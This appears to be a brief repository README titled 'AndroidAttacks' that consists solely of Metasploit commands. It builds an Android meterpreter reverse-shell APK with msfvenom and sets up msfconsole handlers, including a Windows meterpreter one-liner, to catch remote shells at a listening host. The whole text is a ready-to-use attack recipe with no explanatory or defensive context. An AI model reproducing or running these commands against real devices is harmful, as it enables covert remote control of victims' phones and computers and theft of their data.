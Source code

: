 # AndroidAttacks

## Running msfconsole one-liner
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```

```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```

```
$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit
```
